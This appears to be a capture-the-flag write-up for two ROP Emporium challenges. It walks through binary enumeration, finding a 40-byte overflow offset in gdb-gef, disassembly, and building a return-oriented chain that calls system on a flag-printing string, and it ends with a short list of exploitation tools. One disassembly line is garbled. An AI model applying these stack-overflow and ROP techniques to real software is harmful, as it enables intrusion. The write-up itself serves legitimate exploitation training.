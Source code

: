 ## [ROP Emporium](https://ropemporium.com/)

### [ret2win](ret2win/ret2win.py)

**Enumeration**

```
$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped

$ checksec --file ret2win
[*] 'ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

$ nm ret2win | grep ' t'
00000000004005f0 t deregister_tm_clones
0000000000400660 t __do_global_dtors_aux
0000000000400690 t frame_dummy
00000000004006e8 t pwnme
0000000000400620 t register_tm_clones
0000000000400756 t ret2win

$ rabin2 -i ret2win
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf

```
The binary is vulnerable and has NX enabled so ROPChains are the way. The binary has interesting functions `pwnme` and `ret2win`. It also makes calls to system, puts, read, memset, and setvbuf which could be used. Disassembling it in GDB, pwnme seems to be the main functionality with the read function while ret2win is a function that prints the flag. So calling the ret2win function should successfully complete this challenge meaning all we need to do is push the address of that function at eip.

**Exploiting**

Running gdb-gef:
```
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
gef➤  run
...
0x00007fffffffdea8│+0x0000: "faaaaaaaga\n"	 ← $rsp
...
gef➤  pattern search faaaaaaaga
[+] Searching for '61676161616161616166'/'66616161616161616761' with period=8
[+] Found at offset 40 (big-endian search)
```

What is ret2win:
```
gef➤  disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:	push   rbp
   0x0000000000400757 <+1>:	mov    rbp,rsp
   0x000000000040075a <+4>:	mov    edi,0x400926
   0x000000000040075f <+9>:	call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:	mov    edi,0x400943
   0x0000000000400769 <+19>:	call   0x400560 <system@plt>
   0x000000000040076e <+24>:	nop
   0x000000000040076f <+25>:	pop    rbp
   0x0000000000400770 <+26>:	ret    
```
By overflowingg 40 bytes, and then putting the address for the function `ret2win`, we can now print the flag.

### [split](split/split.py)

**Enumeration**

```
$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped

$ checksec --file split
[*] '/home/z3r0/Documents/coder/ROPChains/emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

$ nm split
...
0000000000400697 T main
                 U memset@@GLIBC_2.2.5
                 U printf@@GLIBC_2.2.5
                 U puts@@GLIBC_2.2.5
00000000004006e8 t pwnme
                 U read@@GLIBC_2.2.5
...
0000000000400742 t usefulFunction
0000000000601060 D usefulString

$ rabin2 -z split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
...
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
Looking at the binary really quickly, there is a function called `usefulFunction` and a global string called `usefulString`. Disassembling can definitely show what the function does and where to go from there. By printing the strings found in the binary, it shows the `/bin/cat flag.txt` string at the adress of usefulString.

**Exploiting**

What is usefulFunction:
```
gef➤  disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0xrpg rd40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret 
```
Disassembling the function shows a call to `<system@plt>` which is exactly what was expected. Since there is a string that prints the flag and the system call, a ROP chain can be created to call `system("/bin/cat flag.txt")`. The stack should look like the following for the rop chain to happen:
```
---TOP---
POP RDI
USEFULSTRING
SYSTEM
---BOT---
```
When the overflow happens the next call will be the first instruction on the stack. For a system call to succeed, it needs one argument. The first argument is $rdi, so before the system call, a `pop rdi`instruction must be made to prepare the string into $rdi. Adding this to the payload will result in printing the string.


### Tools

#### ropper
Standalone ROP gadget finder written in Python, displays useful information about binary files. It has coloured output, interactive search and supports bad character lists.

#### ROPGadget
Another powerful ROP gadget finder, doesn't have the interactive search or colourful output that ropper features but it has stronger gadget detection when it comes to ARM architecture.

#### pwntools
CTF framework written in Python. Simplifies interaction with local and remote binaries which makes testing ROP chains on a target a lot easier. Supports a multitude of debugging and execution functions.

#### radare2
Tool radare2 is a disassembler, debugger and binary analysis tool amongst many other things. It is a powerful took that can be used to quickly find information on target binaries.

#### pwndbg
Built as a successor to frameworks like PEDA and GEF, pwndbg is a plugin for GDB that greatly enhances its exploit development capability. Makes it much easier to undestand an environment when debugging.